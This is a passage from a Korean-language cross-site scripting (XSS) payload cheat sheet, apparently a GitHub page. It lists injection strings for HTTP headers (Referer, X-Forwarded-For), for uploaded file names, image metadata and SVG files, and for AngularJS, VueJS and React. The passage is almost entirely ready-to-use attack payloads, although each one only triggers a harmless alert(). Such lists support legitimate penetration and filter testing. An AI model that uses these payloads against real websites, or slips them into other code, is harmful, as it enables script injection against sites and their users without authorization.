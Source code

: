 #### 3.9.2. Referer 헤더
```
Referer: javascript:alert('XSS')
Referer: "><script>alert('XSS')</script>
```

#### 3.9.3. X-Forwarded-For 헤더
```
X-Forwarded-For: <script>alert('XSS')</script>
X-Forwarded-For: "><img src=x onerror=alert('XSS')>
```

### 3.10. 파일 업로드 기반 XSS

#### 3.10.1. 파일명 XSS
```
filename="<script>alert('XSS')</script>.jpg"
filename="image.jpg<img src=x onerror=alert('XSS')>.jpg"
```

#### 3.10.2. 이미지 메타데이터 XSS
```html
<!-- EXIF 데이터에 XSS 삽입 -->
<img src="image.jpg" alt="<script>alert('XSS')</script>">
```

#### 3.10.3. SVG 파일 XSS
```xml
<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
<script>alert('XSS')</script>
</svg>
```

### 3.11. Framework 특화 페이로드

#### 3.11.1. AngularJS (1.x)
```html
{{constructor.constructor('alert("XSS")')()}}
{{$eval.constructor('alert("XSS")')()}}
<div ng-app ng-csp><input ng-focus="$event.view.alert('XSS')" autofocus></div>
```

#### 3.11.2. VueJS
```html
{{constructor.constructor('alert("XSS")')()}}
<div v-html="'<img src=x onerror=alert(`XSS`)>'"></div>
```

#### 3.11.3. React (dangerouslySetInnerHTML)
```html
<div dangerouslySetInnerHTML={{__html: '<img src=x onerror=alert("XSS")>'}}></div>
```
